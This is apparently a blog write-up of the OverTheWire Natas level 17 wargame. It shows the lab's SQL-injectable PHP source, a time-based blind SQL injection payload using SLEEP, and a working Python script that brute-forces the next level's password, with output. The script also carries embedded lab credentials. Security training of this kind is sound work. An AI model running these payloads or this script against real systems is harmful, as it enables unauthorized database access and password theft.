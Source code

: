 ```yaml
---
layout: post
title: "Natas Level17 - Level18"
date: 2015-10-02 21:06:52
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 17 takes us back to Natas 15:

![Natas 17 search](/assets/img/screenshots/Natas_level17-1.png)

Lets look at the source to see if we can find whats changed:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Hmm... looks like they completely removed the response. I submitted the user name "natas18" (since I assume it will exist) and "asfdgshnt" since I do not think it will exist. I captured both requests and sent it to the Burp Comparer to see if we can find any diffrences:

![Natas 17 burp comparer](/assets/img/screenshots/Natas_level17-2.png)

As expected, the result is exactly the same. Since this is a blind sql injection with absolutly no output, the only thing I can think of is a time base attack. If a reponse takes longer when the password exists, we should be able to brute force it. With no output, this might be difficult. So I rebuild a database on my local machine with the following data:

    +----------+----------------------------------+
    | username | password                         |
    +----------+----------------------------------+
    | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
    +----------+----------------------------------+

Next I try the following query:

```sql
Select * from users where username = "natas16"  AND LEFT(password, 1) COLLATE latin1_general_cs = "W" AND (SELECT SLEEP(5)) AND "1"="1";
```

And I get the following output:

![Natas 17 db output](/assets/img/screenshots/Natas_level17-3.png)

Here is the string that I will need to submit:

```sql
natas18"  AND LEFT(password, 1) COLLATE latin1_general_cs = "a" AND  (SELECT SLEEP(20)) AND "1"="1
```

I capture a request in Burp and send it to the intruder but since this is a time base attack, I need to change the Number of threads to 1:

![Natas 17 Burp threads](/assets/img/screenshots/Natas_level17-4.png)

After running it I look at the response time and find the first letter of the password is x:

![Natas 17 Burp result](/assets/img/screenshots/Natas_level17-1.png)

Now lets script it!

```python
import urllib
import urllib2
import time

url = 'http://natas17.natas.labs.overthewire.org/index.php'
authorization = 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        sqli = 'natas18"  AND LEFT(password, %d) COLLATE latin1_general_cs = "%s" AND  (SELECT SLEEP(10)) AND "1"="1' % (i,password + Chars[j])
        values = {'username' : sqli}
        data = urllib.urlencode(values)
        req = urllib2.Request(url, data)
        req.add_header('Authorization', authorization)
        start = time.time()
        response = urllib2.urlopen(req)
        the_page = response.read()
        end = time.time()
        #print the_page
        duration = end-start
        if duration > 10:
            password+=Chars[j]
            print password
            break
```

The first time I run it I get a weird issue:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ....
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDa
    30 out of 32
    31 out of 32
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDaE

But when I ran it again and I got:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ...
    27 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCs
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
    30 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
    31 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

